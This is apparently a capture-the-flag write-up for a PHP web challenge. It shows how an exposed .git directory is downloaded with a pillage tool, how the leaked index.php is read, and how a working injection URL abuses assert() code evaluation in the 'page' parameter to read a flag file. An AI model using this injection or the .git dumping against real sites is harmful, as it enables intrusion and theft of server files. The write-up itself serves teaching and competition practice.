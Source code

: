 ![description](images/description.png)

The challenge contains a link to a website:
![site index](images/site.png)

Going to the about tab reveals that the site uses PHP and git.
![about page](images/about.png)

The server has it's git directory public available:
![git directory](images/git.png)

I used https://github.com/evilpacket/DVCS-Pillage to download the git directory contents:

./gitpillage.sh http web.chal.csaw.io:8000/

This gives access to the source of index.php:
~~~
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
<!DOCTYPE html>
<html>
	<head>

        [irrelevant html stuff]...

		<div class="container" style="margin-top: 50px">
			<?php
				require_once $file;
			?>
			
		</div>
		
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />
	</body>
</html>
~~~

After trying various ways to sneak '..' into the url, I remembered that assertions are generally not advised to be used in production code, so I looked up the php docs on assertions. It turns out that the string passed to the assert is evaluated as php code, meaning that we can inject code using the $page parameter.

After a lot of testing I came up with the solution:
http://web.chal.csaw.io:8000?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('

When evaluated by index.php, the first assert becomes:
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");

This gets past the first assert, opens the flag.php file, and exits, printing its contents before the assertion fails.
![flag](images/flag.png)


